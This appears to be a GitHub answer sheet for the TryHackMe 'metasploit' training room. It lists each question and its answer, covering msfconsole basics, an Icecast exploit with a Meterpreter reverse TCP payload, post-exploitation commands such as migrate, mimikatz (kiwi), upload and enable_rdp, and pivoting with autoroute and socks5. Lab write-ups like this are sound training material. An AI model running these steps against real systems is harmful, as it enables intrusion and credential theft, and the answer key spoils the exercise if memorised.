







# Author:Panagiotis Fiskilis/Neuro

## Room name:Try Hack Me:metasploit ##

# Solution/Flags: #

<b>Task 1:Intro</b>

- Q:```Kali and most other security distributions of Linux include Metasploit by default. If you are using a different distribution of Linux, verify that you have it installed or install it from the Rapid 7 Github repository. ```

	A:```No answer needed```

<b>Task 2:Initializing...</b>

- Q:```First things first, we need to initialize the database! Let's do that now with the command: msfdb init```

	A:```No answer needed```



- Q:```Before starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command: msfconsole -h```

	A:```No asnwer needed```



- Q:```We can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'```

	A:```-q```



- Q :```Once the database is initialized, go ahead and start Metasploit via the command: msfconsole```

	A:```No answer needed```



- Q:```After Metasploit has started, let's go ahead and check that we've connected to the database. Do this now with the command: db_status```

	A:```No answer needed```



- Q:```Cool! We've connected to the database, which type of database does Metasploit 5 use?```

	A:```postgresql```

<b>Task3:Rock 'em to the Core [Commands]</b>

- Q:```Let's go ahead and start exploring the help menu. On the Metasploit prompt (where we'll be at after we start Metasploit using msfconsole), type the command: help```

	A:```No answer needed```



- Q:```The help menu has a very short one-character alias, what is it?```

	A:```?```

- Q:```Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?```

	A:```search```

- Q:```Once we've found the module we want to leverage, what command we use to select it as the active module?```

	A:```use```

- Q:```How about if we want to view information about either a specific module or just the active one we have selected?```

	A:```info```

- Q:```Metasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?```

	A:```connect```

- Q:```Entirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?```

	A:```banner```



- Q:```We'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?```

	A:```set```

- Q:```Metasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?```

	A:```setg```

- Q:```Now that we've learned how to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.```

	A:```get```

- Q:```How about changing the value of a variable to null/no value?```

	A:```unset```

- Q:```When performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?```

	A:```spool```

- Q:```Leaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.```

	A:```save```

<b>Task 4:Modules for Every Occasion!</b>

- Q:```Easily the most common module utilized, which module holds all of the exploit code we will use?```

	A:```exploit```

- Q:```Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?```

	A:```payload```

- Q:```Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.```

	A:```auxiliary```

- Q:```One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?```

	A:```Post```

- Q:```Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?```

	A:```Encoder```

- Q:```Last but not least, which module is used with buffer overflow and ROP attacks?```

	A:```NOP```

- Q:```Not every module is loaded in by default, what command can we use to load different modules?```

	A:```load```

<b>Task 5:Move that shell!</b>

- Q1:```Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command db_nmap -sV MACHINE_IP```

	A:```No answer needed```

- Q2:```What service does nmap identify running on port 135?```

	A:```msrpc```

- Q3:```Let's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.```


	A:```No asnwer needed```

- Q4:```How about something else from the database, try the command services now.```

	A:```No answer needed```

- Q5:```One last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.```

	A:```No answer needed```

- Q6:```Now that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? *This will include the exploit section at the start```

	A:```exploit/windows/http/icecast_header```

- Q7:```What is the name of the column on the far left side of the console that shows up next to 'Name'?```

	A:```#```

- Q8:```Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.```

	A:```No answer needed```

- Q9:```Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.```

	A:```No answer needed```

- Q10:```Let's go ahead and return to our previous exploit, run the command use icecast to select it again.```

	A:```No answer needed```

- Q11:```One last step before we can run our exploit. Run the command set RHOSTS MACHINE_IP to tell Metasploit which target to attack.```

	A:```No answer needed```

- Q12:```Once you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.```

	A:```No answer needed```

- Q13:```Once we've started this, we can check all of the jobs running on the system by running the command jobs```

	A:```No answer needed```

- Q14:```After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER```

	A:```No answer needed```

<b>Task 6:We're in, now what?</b>

- Q1:```First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?```

	A:```spoolsv.exe```

- Q2:```Let's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!```

	A:```migrate```

- Q3:```Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?```

	A:```getuid```

- Q4:```How about finding more information out about the system itself?```

	A:```sysinfo```

- Q5:```This might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?```

	A:```load kiwi```

- Q5:```Let's go ahead and figure out the privileges of our current user, what command do we run?```

	A:```getprivs```

- Q6:```What command do we run to transfer files to our victim computer?```

	A:```upload```

- Q7:```How about if we want to run a Metasploit module?```

	A:```run```

- Q8:```A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?```

	A:```ipconfig```

- Q10:```Let's go ahead and run a few post modules from Metasploit. First, let's run the command run post/windows/gather/checkvm . This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.```

	A:```No answer needed```

- Q11:```Next, let's try: run post/multi/recon/local_exploit_suggester . This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room Ice.```

	A:```No answer needed```

- Q12:```Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp```

	A:```No answer needed```

- Q13:```One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?```

	A:```shell```

<b>Task 7:Makin' Cisco Proud</b>

- Q1:```Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.```

	A:```run autoroute -s 172.18.1.0 -n 255.255.255.0```

- Q2:```Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command search server/socks5. What is the full path to the socks5 auxiliary module?```

	A:```auxiliary/server/socks5```

- Q3:```Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?```

	A:```proxychains```

